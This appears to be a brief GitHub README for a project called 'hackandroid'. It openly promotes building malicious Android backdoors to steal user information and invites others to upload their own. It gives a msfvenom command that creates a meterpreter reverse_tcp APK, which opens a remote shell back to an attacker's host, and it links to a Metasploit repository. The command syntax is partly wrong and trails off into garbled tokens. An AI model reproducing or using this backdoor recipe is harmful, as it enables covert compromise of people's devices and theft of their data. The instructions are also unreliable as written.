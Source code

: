 # hackandroid
hackandroid


Creating a malicious programme that launches backdoor to android and grab user info from wifi to all kinda stuff
using msfvenom and upload programe to this page so everyone knows
its not a payload its an backdoor to your device 
==> list your programme
==> upload your programme
==> enjoy now!

==>HACK_LATER!!!


install msfconsole and msfvenom 
run this on terminal msfvenom -p android/meterpreter/reverse_tcp -LHOST <ifconfig on otherterminal(ip)> -LPORT <no ssh(port number)> >> <filename>.apk execute<venom><upload><save><run> <traceback>.md
  
  venom install in package
  
  install metasploit-framework now
  link ==>> https://github.com/trustedsec/metasploit-framework.git <frame-work:;>
